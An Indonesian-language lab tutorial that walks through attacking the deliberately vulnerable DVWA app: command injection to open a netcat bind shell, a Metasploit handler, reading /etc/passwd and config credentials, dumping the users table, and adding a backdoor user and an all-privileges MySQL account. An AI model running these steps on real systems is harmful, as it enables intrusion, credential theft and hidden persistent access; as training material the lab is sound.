## LESSON 4

Inti dari Lesson 4 adalah implementasi Metasploit command execution dengan menggunakan NetCat untuk memanipulasi database yang ada di dalam database DVWA. 

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Membuka koneksi menggunakan NetCat**
1. Akses website dari DVWA dengan cara

```
http://192.168.1.103/dvwa/login.php/;
```

**NOTE**
* Username dan Password default adalah **admin**/**password**

2. Masuk ke dalam **Command Execution** dan masukan command lalu klik **Submit**

```
192.168.1.103;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
```

Hasil yang akan didapat adalah:


**B. Menggunakan Metasploit untuk membuka koneksi ke NetCat**
1. Menjalankan Metasploit

**Application** -> **Backtrack** -> **Application** -> **Exploitation Tools** -> **Network Exploitation Tools** -> **Metasploit Framework** -> **msfconsole**

Hasil yang akan didapat adalah:


2. Menjalankan koneksi ke NetCat

```
use multi/handler
set PAYLOAD linux/x86/shell/bind_tcp
show options
set RHOST 192.168.1.103
exploit
```

Hasil yang akan didapat adalah:


3. Eksplorasi User Credentials

```
whoami
grep apache /etc/passwd
grep apache /etc/group
```

Hasil yang akan didapat adalah:


4. Eksplorasi Proses dan Directory Credentials

```
ps -eaf | grep http
pwd
ls -ld /var/www/html
ls -ld /var/www/html/dvwa
ls -l /var/www/html/dvwa
```

Hasil yang akan didapat adalah:


5. Eksplorasi Database Credentials

```
ls -l /var/www/html/dvwa/config
cat /var/www/html/dvwa/config/config.inc.php
```

Hasil yang akan didapat adalah:


**C. Eksplorasi MySQL**
1. Memperlihatkan Informasi DVWA Database

```
echo "show databases;" | mysql -uroot -psanisani
echo "use dvwa; show tables;" | mysql -uroot -psanisani
echo "use dvwa; desc users;" | mysql -uroot -psanisani
echo "select * from dvwa.users;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:


2. Membuat User Baru di Tabel dvwa.users

```
echo "insert into dvwa.users values ('6','Sani','Sunny','sani9050',MD5('sanisani'),'NA');" | mysql -uroot -psanisani
echo "select * from dvwa.users;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:


3. Menunjukkan Informasi pada Tabel MySQL

```
echo "show databases;" | mysql -uroot -psanisani
echo "use mysql; show tables;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:


4. Membuat User Baru MySQL

```
echo "use mysql; GRANT ALL PRIVILEGES ON *.* TO 'sani_hacker'@'%' IDENTIFIED BY 'sanisani' WITH GRANT OPTION;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:


```
echo "select * from mysql.user;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:


### Kesimpulan Lesson 4

Menggunakan Metaeksploit untuk menambah user yang tidak terautentikasi sangat berbahaya karena dapat melakukan pencurian data.
